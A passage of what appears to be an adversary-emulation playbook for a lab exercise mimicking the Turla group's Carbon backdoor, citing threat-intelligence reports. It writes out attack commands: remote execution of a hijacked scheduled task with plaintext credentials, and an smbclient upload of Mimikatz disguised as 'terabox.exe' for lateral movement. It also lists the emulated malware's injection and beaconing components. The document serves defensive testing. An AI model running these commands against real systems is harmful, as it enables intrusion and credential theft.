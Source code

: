 ```bat
schtasks /Run /S bannik /U skt\Frieda /P Password3! /TN "\Microsoft\Windows\Customer Experience Improvement Program\Consolidator" /I
```

:arrow_right: Return to your RDP session to bannik.
 
* Open File Explorer and browse to `C:\Program Files\Windows NT\2028`. Validate
the existence of a `dsntport.dat` file. The log file should be growing every
~20 seconds.

### :moyai: Source Code

* [CARBON-DLL installer](CarbonInstaller_README.md)
  * [Drop components](file_handler.cpp#L178)
  * [Create Loader Service](service_handler.cpp#L170)
    * Service registry edits: [1](service_handler.cpp#L230), [2](service_handler.cpp#L284)
  * [Start Loader Service](service_handler.cpp#L354)
  * [Loader Service](service.cpp)
* [CARBON-DLL Orchestrator](Orchestrator_README.md)
  * [Comms Lib DLL Injection](injection.cpp#L454)
  * [Task Execution](tasking.cpp#L388)
* [CARBON-DLL Comms Lib](CommLib_README.md)
  * [Beacon and task/payload retrieval over HTTP](CommLib.cpp#L313)
  * [Upload task output over HTTP](CommLib.cpp#L342)
  * [Peer to peer communications over named pipes](NamedPipeP2p.cpp)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>

<br>

## Test 5: Mimikatz and PsExec of 3rd Carbon Installer

:microphone: `Voice Track:`

Test 5 emulates Turla downloading and executing Mimikatz as `terabox.exe` in
order to perform lateral movement to a second workstation in the domain.

---

### :biohazard: Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
Mimikatz to `bannik (10.20.10.9)`:
```bash
cd /opt/day1/turla/Resources/payloads/carbon
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put mimikatz.exe Windows\System32\terabox.exe'
```
